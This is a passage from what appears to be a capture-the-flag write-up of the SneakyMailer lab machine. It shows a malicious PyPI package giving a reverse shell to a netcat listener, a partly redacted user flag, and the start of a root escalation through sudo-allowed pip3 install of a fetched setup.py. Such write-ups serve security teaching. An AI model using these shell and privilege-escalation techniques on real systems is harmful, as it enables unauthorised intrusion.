 
If I hurry and load `http://pypi.sneakycorp.htb:8080/simple`, the package is
listed:

![image-20200713071533459](https://0xdfimages.gitlab.io/img/image-20200713071533459.png)

It disappears very quickly (it seems low is quick to react and clean up). But
a few seconds later, `nc` receives a connection with a shell as low:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.197.
    Ncat: Connection from 10.10.10.197:56400.
    $ id
    uid=1000(low) gid=1000(low) groups=1000(low),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),119(pypi-pkg)
    

And low can access `user.txt`:

    
    
    $ cat user.txt
    13164fcd************************
    

## Priv: low –> root

### Enumeration

Listing commands low can run as other users with `sudo -l` shows the next step
very clearly:

    
    
    low@sneakymailer:/$ sudo -l
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Matching Defaults entries for low on sneakymailer:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User low may run the following commands on sneakymailer:
        (root) NOPASSWD: /usr/bin/pip3
    

### sudo pip

This is the same privesc as [Canape](/2018/09/15/htb-canape.html#sudo-pip),
and really, the same as the previous step, just way simpler. I’ll use Python’s
webserver to host my `setup.py` file from the package, and use `wget` on
SneakyMailer to save a copy in `/dev/shm`.

Then I just run with the `install` command passing the current directory:

    